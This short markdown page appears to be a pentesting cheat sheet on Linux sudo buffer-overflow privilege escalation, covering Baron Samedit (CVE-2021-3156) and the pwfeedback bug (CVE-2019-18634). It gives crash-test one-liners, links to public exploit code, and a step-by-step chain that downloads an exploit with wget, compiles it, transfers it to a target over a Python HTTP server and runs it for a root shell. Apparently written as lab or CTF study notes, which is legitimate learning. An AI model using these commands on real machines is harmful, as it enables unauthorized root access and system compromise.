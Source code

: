 ```yaml
---
title: Buffer Overflow Privilege Escalation
description: Buffer overflow in Linux might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Linux
    - Privilege Escalation
refs:
date: 2023-07-05
draft: false
---
```


## Baron Samedit (Heap Buffer Overflow) CVE-2021-3156

### 1. Check Vulnerability to Overwrite Heap Buffer in Target Machine

```sh
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
malloc(): invalid size (unsorted)
Aborted
```

### 2. Proof of Concept

There are various PoC online.

- [https://github.com/lockedbyte/CVE-Exploits/tree/master/CVE-2021-3156](https://github.com/lockedbyte/CVE-Exploits/tree/master/CVE-2021-3156).
- [https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

<br />

## Pwfeedback

### 1. Check Enabling the Pwfeedback in /etc/sudoers

If so, when running sudo command and inputting password, asterisk will be displayed.  
You can make it the buffer overflow.

```sh
cat /etc/sudoers

# -------------------------------------------

...
Defaults pwfeadback
...
```

### 2. Input Long String to Password

```sh
perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
# [sudo] password for tryhackme: Segmentation fault
```

### 3. Download a Payload and Compile in Local Machine

```sh
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
gcc -o exploit exploit.c
```

### 4. Transfer the Payload to Remote Machine

```sh
# In local machine
python3 -m http.server 8000

# In remote machine
wget http://<local-ip>:8000/exploit
```

### 5. Execute the Payload in Remote Machine

After that, you'll get a root shell.

```sh
chmod 700 ./exploit
./exploit
```